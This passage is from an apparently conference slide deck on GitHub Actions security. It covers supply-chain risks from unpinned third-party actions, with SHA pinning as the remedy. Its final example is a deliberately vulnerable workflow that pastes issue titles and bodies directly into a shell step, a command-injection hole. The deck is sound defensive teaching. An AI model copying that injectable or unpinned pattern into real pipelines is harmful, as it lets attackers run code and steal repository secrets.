








<!--
_backgroundColor: #1E3A8A
_color: white
-->

<style scoped>
h1 {
  text-align: right;
  font-size: 52px;
  color: #FFFFFF;
  text-shadow: 2px 2px 4px rgba(0, 0, 0, 0.3);
  font-weight: 700;
}

h2 {
  font-size: 28px;
  text-align: right;
  font-style: italic;
  color: #10B981;
  text-shadow: 1px 1px 2px rgba(0, 0, 0, 0.3);
}

em {
  font-weight: bold;
  font-style: normal;
  color: #10B981;
}

p {
  font-style: italic;
  text-align: right;
  color: #E2E8F0;
}

strong {
    font-weight: bold;
    color: #10B981;
}

section.optional {
  display: none;
}

section.optional.enabled {
  display: block;
}
</style>


# GitHub Actions Security
## From CI Nightmare to Supply Chain Sentinel

<br>
<br>

## Niek Palm

---


<!--
_backgroundColor: #000000
-->

<style scoped>
section {
  padding: 0;
  margin: 0;
  width: 100%;
  height: 100%;
  display: flex;
  align-items: center;
  justify-content: center;
}

video {
  width: 100%;
  height: 100%;
  max-width: 100vw;
  max-height: 100vh;
  object-fit: contain;
}
</style>

<video src="assets/injection.webm" controls></video>

---

<!-- 

_backgroundColor: #1E3A8A
_color: white
-->

<style scoped>
.speaker-container {
  display: flex;
  align-items: center;
  gap: 3rem;
  height: 80%;
  padding: 2rem;
}

.speaker-image {
  flex: 0 0 40%;
  display: flex;
  justify-content: center;
  align-items: center;
}

.speaker-photo {
  width: 400px;
  height: 400px;
  object-fit: cover;
  border-radius: 50%;
  box-shadow: 0 12px 48px rgba(0, 0, 0, 0.4);
}

.speaker-info {
  flex: 1;
  display: flex;
  flex-direction: column;
  justify-content: center;
  gap: 1.5rem;
}

.speaker-name {
  font-size: 3.5rem;
  font-weight: bold;
  color: #DBEAFE;
  margin: 0;
  text-shadow: 2px 2px 4px rgba(0, 0, 0, 0.3);
}

.speaker-title {
  font-size: 1.4rem;
  color: #93C5FD;
  margin: 0;
  font-weight: 300;
  font-style: italic;
}
</style>


<div class="speaker-container">
  <div class="speaker-image">
    
  </div>
  
  <div class="speaker-info">
    <h1 class="speaker-name">Niek Palm</h1>
    <h2 class="speaker-title">Principal Engineer Philips</h2>
  </div>
</div>


---
<!--
_backgroundColor: #00629F
_color: white
-->

<style scoped>
.slide-container {
  display: flex;
  align-items: flex-start;
  gap: 1.5rem;
  height: 100%;
}

.left-section {
  flex: 0 0 450px;
  display: flex;
  align-items: center;
  justify-content: center;
}

.gh-actions-img {
  width: 450px;
  height: 450px;
  object-fit: cover;
  border-radius: 20px;
  box-shadow: 0 8px 32px rgba(0, 0, 0, 0.3);
  background: rgba(255, 255, 255, 0.1);
  backdrop-filter: blur(10px);
}

.right-section {
  flex: 1;
  display: flex;
  align-items: center;
  justify-content: center;
}

.right-section p {
  padding: 1.2rem;
  font-size: 1.15rem;
  line-height: 1.5;
  font-style: italic;
  word-wrap: break-word;
  hyphens: auto;
  color: white;
}


</style>

# 🤖 What is GitHub Actions?

<div class="slide-container">
  <div class="left-section">
    
  </div>
  
  <div class="right-section">
    <p>"GitHub Actions automates your software development workflow, letting you build, test, and deploy code directly from your GitHub repository. Its tight integration with GitHub has made it one of the most widely adopted CI/CD solutions."</p>
  </div>
</div>


---
<!--
_backgroundColor: #00629F
_color: white
-->

<style scoped>
.slide-container {
  display: flex;
  align-items: flex-start;
  gap: 1rem;
  height: 100%;
}


.left-section {
  flex: 0 0 450px;
  display: flex;
  align-items: center;
  justify-content: center;
}

.gh-actions-img {
  width: 450px;
  height: 450px;
  object-fit: cover;
  border-radius: 20px;
  box-shadow: 0 8px 32px rgba(0, 0, 0, 0.3);
  background: rgba(255, 255, 255, 0.1);
  backdrop-filter: blur(10px);
}

.right-section {
  flex: 1;
  display: grid;
  grid-template-columns: repeat(2, 1fr);
  gap: 1.0rem;
}

.column h2 {
  font-size: 1.5rem;
  margin-bottom: 0.5rem;
}

.column ul {
  margin: 0;
  padding-left: 1rem;
}

.column li {
  margin-bottom: 0.3rem;
  font-size: 0.85rem;
}
</style>

# 🤖 What is GitHub Actions?

<div class="slide-container">
  <div class="left-section">
    
  </div>
  
  <div class="right-section">
    <div class="column">
      <h3>🏃‍♂️ <strong>Runners</strong></h3>
      <ul>
        <li>GitHub-hosted or self-hosted</li>
        <li>Multiple OS support (Linux, Windows, macOS)</li>
      </ul>
    </div>
    <div class="column">
      <h3>🚀 <strong>Jobs &amp; Steps</strong></h3>
      <ul>
        <li><strong>Jobs</strong>: Isolation level - independent units</li>
        <li><strong>Steps</strong>: Individual tasks within a job</li>
        <li>Run sequentially or in parallel</li>
      </ul>
    </div>
  </div>
</div>


---
<!--
_backgroundColor: #0072DA
_color: white
-->

<style scoped>
.example-container {
  display: flex;
  align-items: flex-start;
  gap: 1rem;
  height: 100%;
}

.code-section {
  flex: 0 0 50%;
}

.code-section pre {
  border-radius: 12px;
  box-shadow: 10px 10px 20px rgba(0, 0, 0, 0.3);
  padding: 1.5rem;
  margin: 0;
}

.explanation-section {
  flex: 1;
}

.explanation-section h3 {
  font-size: 1.3rem;
  margin-bottom: 1rem;
}

.explanation-section ol {
  font-size: 0.8rem;
  line-height: 1.9;
}
</style>

# ⚙️ Example workflow

<div class="example-container">
  <div class="code-section">

```yaml
name: GitHub Actions Example

on: [push, pull_request]                           # 1

jobs:
  build:
    runs-on: [self-hosted, philips-code-hub, ...]. # 2
    
    steps:
    - name: Checkout code
      uses: actions/checkout@v5                    # 3
        
    - name: Install dependencies
      run: npm ci                                  # 4
      
    - name: Run tests
      run: npm test                                # 4
```

  </div>
  
  <div class="explanation-section">
    <h3>🔍 <strong>What's happening?</strong></h3>
    <ol>
      <li><strong>Trigger</strong>: on <code>push</code> or <code>pull_request</code></li>
      <li><strong>Runner</strong>: Philips ephemeral fleet<br><code>self-hosted, philips-code-hub, ...</code></li>
      <li><strong>Third party action</strong>: <code>checkout@v5</code></li>
      <li><strong>Run script</strong>: <code>npm ...</code></li>
    </ol>
  </div>
</div>


---

<!--
_backgroundColor: #2D3748
_color: white
-->

<style scoped>
.four-block-container {
  height: 80%;
  padding: 1rem;
}

.block {
  padding: 1.0rem;
}

.block h3 {
  margin-top: 0;
  margin-bottom: 0.2;
  color: #68D391;
  font-size: 1.0rem;
}

.block ul {
  margin: 0;
  padding-left: 1.2rem;
  flex-grow: 1;
}

.block li {
  margin-bottom: 0.5rem;
  line-height: 1.2;
  font-size: 0.6rem;
}

code {
  background: rgba(0, 0, 0, 0.3);
  padding: 0.2rem 0.4rem;
  border-radius: 4px;
}
</style>

# 🧱 What is a GitHub Action?

<div class="four-block-container grid-2x2">
  
  <div class="block card flex-column">
    <h3>🧱 LEGO Bricks in Your Pipeline</h3>
    <ul>
      <li>Building blocks you snap together</li>
      <li>Each action does one thing well</li>
      <li>Combine them to build complex workflows</li>
    </ul>
  </div>

  <div class="block card flex-column">
    <h3>⚡ Available Runtimes</h3>
    <ul>
      <li><strong>Node.js</strong> - JavaScript actions</li>
      <li><strong>Docker</strong> - Containerized actions</li>
      <li><strong>Shell</strong> - Composite run steps</li>
    </ul>
  </div>

  <div class="block card flex-column">
    <h3>🎯 Run in Context of a Job</h3>
    <ul>
      <li>Actions execute as steps within jobs</li>
      <li>Share the same runner environment</li>
      <li>Access job-level variables and secrets</li>
    </ul>
  </div>

  <div class="block card flex-column">
    <h3>📦 Distribution Channel</h3>
    <ul>
      <li><strong>GitHub Repository or Package</strong> - Distribution method</li>
      <li>Reference: <code>owner/repo@version</code></li>
      <li>Can be public or private</li>
    </ul>
  </div>

</div>


---

<!--
_backgroundColor: #8B5CF6
_color: white
-->

<style scoped>
.attack-target-container {
  display: flex;
  align-items: center;
  gap: 3rem;
  height: 80%;
  padding: 2rem;
}

.target-image {
  flex: 0 0 45%;
  display: flex;
  justify-content: center;
  align-items: center;
}

.target-image img {
  width: 500px;
  height: 500px;
  object-fit: cover;
  border-radius: 50%;
  clip-path: circle(50%);
  box-shadow: 0 8px 32px rgba(0, 0, 0, 0.3);
}

.target-content {
  flex: 1;
}

.target-list {
  list-style: none;
  padding: 0;
  margin: 0;
}

.target-list li {
  font-size: 1.2rem;
  line-height: 2.5;
}

.target-list li strong {
  color: #F3E8FF;
}
</style>

# 🎯 Why target GitHub Actions?

<div class="attack-target-container">
  <div class="target-image">
    
  </div>
  
  <div class="target-content">
    <ul class="target-list">
      <li><strong>📂 Source Code Access</strong></li>
      <li><strong>📦 Publishing Packages</strong></li>
      <li><strong>🔐 Secrets & Credentials</strong></li>
    </ul>
  </div>
</div>

---

<!--
_backgroundColor: #B91C1C
_color: white
-->

<style scoped>
pre {
  border-radius: 12px;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
}
</style>

# 🤔 What can go wrong?


```yaml
name: Check Changed Files

on: [pull_request]

jobs:
  check-changes:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    
    - name: Get changed files
      uses: tj-actions/changed-files@v45
      id: changed-files
      with:
        files: |
          src/**
          docs/**
    
    - name: Process changes
      run: echo "Changed files: ${{ steps.changed-files.outputs.all_changed_files }}"
```

---

<!--
_backgroundColor: #B91C1C
_color: white
-->

<style scoped>
pre {
  border-radius: 12px;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
}
</style>

# 🔥 What can go wrong?


```yaml
name: Check Changed Files

on: [pull_request]

jobs:
  check-changes:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4.0.0
    
    - name: Get changed files
      uses: tj-actions/changed-files@v45.0.7
      id: changed-files
      with:
        files: |
          src/**
          docs/**
    
    - name: Process changes
      run: echo "Changed files: ${{ steps.changed-files.outputs.all_changed_files }}"
```


---

<!--
_backgroundColor: #DC2626
_color: white
-->

<style scoped>
.attack-container {
  display: grid;
  grid-template-columns: 2fr 3fr;
  gap: 2rem;
  height: 80%;
  align-items: center;
}

.attack-content {
  display: flex;
  flex-direction: column;
  gap: 1.5rem;
}

.attack-point {
  background: rgba(255, 255, 255, 0.15);
  border-radius: 12px;
  padding: 1.5rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.attack-point p {
  margin: 0;
  font-size: 1.1rem;
  line-height: 3.22;
}

.attack-image {
  display: flex;
  justify-content: center;
  align-items: center;
}

.attack-image img {
  max-width: 100%;
  max-height: 100%;
  object-fit: contain;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
  border-radius: 12px;

}
</style>

# 🎯 Repository takeover

<div class="attack-container">
  <div class="attack-point">
      <p>🚀 Push Malicious Code<p>
      <p>✨ Create Releases</p>
      <p>🏷️ Rewrite Tags</p>
  </div>

  
  <div class="attack-image">
    
  </div>
</div>

---

<!--
_backgroundColor: #059669
_color: white
-->

<style scoped>
.solution-container {
  display: grid;
  grid-template-columns: 2fr 3fr;
  gap: 2rem;
  height: 80%;
  align-items: center;
}

.solution-content {
  display: flex;
  flex-direction: column;
  gap: 1.5rem;
}

.solution-point {
  background: rgba(255, 255, 255, 0.15);
  border-radius: 12px;
  padding: 1.5rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.solution-point h4 {
  margin: 0 0 0.8rem 0;
  color: #F0FDF4;
  font-size: 0.85rem;
  line-height: 2.2;
}

.solution-code {
  display: flex;
  justify-content: center;
  align-items: center;
}

.solution-code pre {
  border-radius: 12px;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
  padding: 1.5rem;
  margin: 0;
  width: 100%;
}
</style>

# ✅ Secure third-party actions

<div class="solution-container">
  <div class="solution-content">
    <div class="solution-point">
      <h4>🔒 Lock SHA</h4>
      <h4>🔍 Verify Integrity</h4>
      <h4>🤖 Manage with Dependabot</h4>
      <h4>🛡️ Minimal Privilege</h4>
    </div>
  </div>
  
  <div class="solution-code">

```yaml
name: Secure Workflow

on: [pull_request]

jobs:
  secure-build:
    runs-on: ubuntu-latest
    steps:
      # SHA-pinned action for security
    - uses: actions/checkout@08c690...      # v5.0.0 ← SECURE
    
    - name: Get changed files
      # SHA-pinned action for security
      uses: tj-actions/changed-files@24d32f... # v47 ← SECURE
      
    - name: Process changes
      ...
```

  </div>
</div>


---

<!--
_backgroundColor: #2D3748
_color: white
-->

<style scoped>
.code-container {
  display: flex;
  justify-content: center;
  align-items: center;
  height: 80%;
}

.code-section {
  width: 70%;
}

.code-section pre {
  border-radius: 12px;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
  padding: 2rem;
  margin: 0;
  font-size: 0.8rem;
}
</style>

# 🤔 What can go wrong? 

<div class="code-container">
  <div class="code-section">

```yaml
name: Issue Logger

on:
  issues:
    types: [opened]

jobs:
  log-issue:
    runs-on: ubuntu-latest
    steps:
    - name: Log issue details
      run: |
        echo "Issue: ${{ github.event.issue.title }}"
        echo "Description: ${{ github.event.issue.body }}"
```

  </div>
</div>


---

<!--
_backgroundColor: #E53E3E
_color: white
-->

<style scoped>
.problem-container {
  display: grid;
  grid-template-columns: 1fr 1fr;
  grid-template-rows: 1fr 1fr;
  gap: 1.5rem;
  height: 80%;
